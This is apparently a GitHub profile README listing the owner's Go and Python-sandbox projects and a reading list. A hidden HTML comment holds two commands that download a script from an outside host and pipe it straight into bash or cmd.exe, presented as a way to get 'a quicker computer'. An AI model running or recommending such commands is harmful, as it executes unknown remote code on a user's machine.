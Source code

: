 ## Hi
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Learning/Projects
- 💻 Working on sharpening my Go programing skills. Be sure to check in for more repos. \
- 💻 If you are interested in working with me on the [python sandbox](https://twosixtech.com/hijacking-the-ast-to-safely-handle-untrusted-python/) you can send me an email and I will add you to the private repo. \
- 💻 Personal Blog at dackjempsey.com currently it redirects to here.


### Current Reading list
- 📖 [Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881) \
- 📖 [Quantum Computing and Quantum Information](https://www.amazon.com/Quantum-Computation-Information-10th-Anniversary/dp/1107002176/ref=sr_1_1?crid=3K2FR2P6HUCV2&keywords=nielsen+quantum+computing&qid=1676434522&s=books&sprefix=nielson+quantum+computing%2Cstripbooks%2C65&sr=1-1&ufe=app_do%3Aamzn1.fos.006c50ae-5d4c-4777-9bc0-4513d670b6bc) \
- 📖 [Hacking APIs](https://nostarch.com/hacking-apis) 


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
